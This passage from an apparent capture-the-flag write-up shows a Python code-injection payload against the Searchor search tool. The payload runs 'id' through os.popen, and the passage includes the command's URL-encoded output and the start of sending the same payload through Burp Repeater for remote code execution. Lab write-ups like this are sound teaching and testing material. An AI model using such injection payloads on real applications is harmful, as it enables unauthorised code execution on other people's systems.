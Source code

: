 

It works:



    (venv) oxdf@hacky$ searchor search GitHub "' + __import__('os').popen('id').read() + '"
    https://www.github.com/search?q=uid%3D1000%28oxdf%29%20gid%3D1000%28oxdf%29%20groups%3D1000%28oxdf%29%2C115%28netdev%29%2C123%28nopasswdlogin%29%2C999%28vboxsf%29%0A



The result is URL-encoded, but decoding that gives, which is the output
of the `id` command:



    https://www.github.com/search?q=uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),999(vboxsf)



### RCE

#### POC

I'll try submitting that payload by finding the POST request in Burp
Proxy, and sending that request to Burp Repeater. There, I'll edit the
`query` to be my parameter:

![](/img/image-20230331145602239.png)

Once it's there, I'll want to URL encode it by selecting everything
between my `'` and pushing Ctrl-u. Clicking "Send" shows success:

![](/img/image-20230331145706180.png)
